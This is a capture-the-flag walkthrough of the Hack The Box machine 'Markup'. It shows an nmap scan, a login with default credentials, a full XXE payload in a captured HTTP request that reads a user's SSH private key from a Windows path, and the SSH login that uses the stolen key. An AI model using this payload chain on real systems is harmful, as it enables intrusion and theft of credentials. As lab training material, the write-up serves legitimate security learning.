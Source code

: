 ```yaml
---
title: Markup - A HTB machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - windows
  - xxe
---
```


# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing arounf with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags.


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:

![source code](img/markup.png)


As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](xml-external-entity-xee.md).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.




